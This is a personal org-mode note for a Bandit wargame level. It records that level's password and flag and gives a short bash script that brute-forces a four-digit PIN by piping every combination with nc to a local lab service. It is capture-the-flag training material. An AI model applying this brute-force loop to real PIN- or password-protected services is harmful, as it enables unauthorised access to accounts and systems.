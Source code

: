 :PROPERTIES:
:ID:       2651ec98-61c8-4954-9394-2714e5ba1b69
:END:
#+title: Bandit24
* Previous
[[id:f600117f-3a57-4d68-b6a1-eed2e3e6afc5][Bandit23]]

* Password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

* Flag
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

* Notes

Write bash script:
#+begin_src bash
#!/bin/bash

PW="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for PIN in {0000..9999}; do
    echo $PW $PIN
done | nc localhost 30002
#+end_src

* Next
[[id:2c446745-4e2e-4978-995a-a74b31dc6564][Bandit25]]

